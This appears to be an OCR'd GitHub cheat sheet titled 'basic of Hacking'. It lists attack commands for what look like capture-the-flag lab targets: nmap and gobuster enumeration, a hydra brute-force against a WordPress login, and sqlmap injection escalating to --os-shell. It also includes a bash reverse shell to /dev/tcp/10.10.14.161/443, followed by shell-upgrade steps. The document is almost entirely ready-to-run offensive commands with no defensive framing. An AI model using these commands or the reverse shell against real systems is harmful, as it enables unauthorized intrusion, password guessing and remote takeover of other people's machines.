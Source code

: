 ##We are going to do basic of Hacking

#Enumeration
1. nmap -Sc -sV <`ip address>
2. nmap -sT <'ip address>
3. nmap -sP <'ip address>

#Enumeration
1. gobuster dir -u <`ip address> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

#BruteForcing

1. hydra -L fsocity.txt -p mypassword 192.168.10.100 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In:Invalid username"

Sqlmap
1. sqlmap -u 'http://10.129.233.138/dashboard.php?search=any+query' --cookie="PHPSESSID=9qik8dt7ol8fpsbi63t0beft1l"
2. sqlmap -u 'http://10.129.233.138/dashboard.php?search=any+query' --cookie="PHPSESSID=9qik8dt7ol8fpsbi63t0beft1l" --os-shell


reverse shell
1. bash -c "bash -i >& /dev/tcp/10.10.14.161/443 0>&1"
pty enable
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl Z
stty raw -echo
fg
export TERM=xterm




